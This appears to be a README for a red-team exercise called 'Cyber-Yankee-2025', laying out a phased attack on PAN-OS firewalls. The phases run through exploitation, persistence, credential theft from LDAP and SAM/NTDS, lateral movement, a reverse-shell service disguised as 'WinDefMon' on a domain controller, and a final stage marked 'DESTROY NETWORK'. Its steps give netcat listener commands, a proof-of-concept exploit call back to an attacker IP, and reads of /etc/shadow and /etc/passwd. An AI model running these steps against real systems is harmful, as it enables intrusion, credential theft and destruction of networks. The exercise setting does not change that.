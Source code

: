# Cyber-Yankee-2025

## Sassy Panda

[Phase1](Phase1) - #PanOS Exploit

[Phase2](Phase2) - #PanOS Internal Reconnaissance & Enumeration

[Phase3](Phase3) - #PanOS Persistence

[Phase4](Phase4) - #PanOS proxy chains

---

[Phase5](Phase5) - #Discovery Inside Orange Space

[Phase6](Phase6) - #Credential Access (via LDAP, SAM/NTDS)

---

[Phase7](Phase7) - Lateral Movement and Persistence *DAY 3*

[Phase8](Phase8) - `WinDefMon` Reverse Shell Service on DC

[Phase9](Phase9) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK

## Steps

1. initial access - setup initial listener (netcat/metasploit) with your 61574
    run command: `nc -lvnp 61574`
2. setup callback listener 63842
    run command: `nc -lvnp 63842`
3. run python:
    `python Poc.py https://<TARGET_PAL_WEB_INTERFACE_IP> <ATTACKER_IP> <ATTACKER_PORT>` # Random high port chosen in script from above
4. once exploit is through, look at initial listener and wait for callback to catch. once callback catches perform; `whoami`, `ifconfig`
    run command:
    `cat /etc/shadow` # grab the users on the machine
    `cat /etc/passwd` # grab what shell permissions every user has